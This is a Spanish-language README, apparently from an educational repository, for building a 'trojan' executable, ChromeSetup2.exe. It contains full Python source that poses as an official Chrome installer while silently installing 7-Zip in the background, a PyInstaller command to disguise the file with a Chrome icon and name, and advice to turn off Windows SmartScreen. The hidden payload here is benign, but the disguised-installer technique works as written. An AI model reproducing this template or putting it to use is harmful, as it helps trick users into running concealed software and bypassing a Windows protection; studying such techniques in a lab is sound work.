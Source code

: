 # README - Troyano ChromeSetup2

Este proyecto crea un ejecutable (`ChromeSetup2.exe`) que simula instalar Google Chrome mientras instala 7-Zip en segundo plano.

## Requisitos

- Máquina virtual con Windows 10.
- Python 3.x instalado.
- Módulos: `requests` y `pyinstaller` (`pip install requests pyinstaller`).
- Conexión a internet.

## Pasos

1. **Crear el script**

   - Copia este código en un archivo llamado `trojan.py`:

     ```python
     import os, requests, subprocess, time, sys

     CHROME_URL = "https://dl.google.com/chrome/install/ChromeSetup.exe"
     SEVENZIP_URL = "https://www.7-zip.org/a/7z2301-x64.exe"
     CHROME_PATH = os.path.join(os.getenv("TEMP"), "ChromeSetup.exe")
     SEVENZIP_PATH = os.path.join(os.getenv("TEMP"), "7zipSetup.exe")

     def download_file(url, filename):
         print(f"Preparando la descarga de {os.path.basename(filename)}...")
         response = requests.get(url, stream=True)
         with open(filename, "wb") as file:
             for chunk in response.iter_content(chunk_size=8192):
                 file.write(chunk)
         print(f"Descarga completada.")

     def install_chrome():
         if os.path.exists(CHROME_PATH):
             print("Iniciando la instalación de Google Chrome...")
             subprocess.Popen(CHROME_PATH)
         else:
             print("Error: No se pudo encontrar el instalador de Chrome.")
             sys.exit(1)

     def install_7zip_silently():
         if os.path.exists(SEVENZIP_PATH):
             print("Configurando componentes adicionales...")
             subprocess.Popen([SEVENZIP_PATH, "/S"], shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
         else:
             print("Error: No se pudo encontrar el instalador de 7-Zip.")
             sys.exit(1)

     def main():
         print("Bienvenido al Instalador de Google Chrome")
         print("Versión oficial - Descargando desde Google...\n")
         time.sleep(1)
         download_file(CHROME_URL, CHROME_PATH)
         download_file(SEVENZIP_URL, SEVENZIP_PATH)
         install_chrome()
         time.sleep(2)
         install_7zip_silently()
         print("\nLa instalación de Google Chrome ha comenzado.")
         time.sleep(3)

     if __name__ == "__main__":
         main()
     ```

2. **Descargar un ícono**

   - Descarga un ícono de Chrome (`.ico`) y guárdalo como `chrome.ico` en la misma carpeta que `trojan.py`.

3. **Compilar el ejecutable**

   - Abre una terminal en la carpeta de `trojan.py`.
   - Ejecuta:
     ```
     pyinstaller --onefile --icon=chrome.ico --name ChromeSetup2 trojan.py
     ```
   - Encuentra `ChromeSetup2.exe` en la carpeta `dist`.

4. **Probar en la máquina virtual**

   - Copia `ChromeSetup2.exe` a la máquina virtual con Windows 10.
   - Haz doble clic para ejecutarlo.
   - Chrome se instalará visiblemente y 7-Zip se instalará en silencio.

5. **Verificar**
   - Busca "7-Zip" en el menú de inicio para confirmar la instalación.

## Notas

- Solo para uso educativo en un entorno controlado.
- Windows SmartScreen podría bloquearlo; desactívalo temporalmente para pruebas.

---
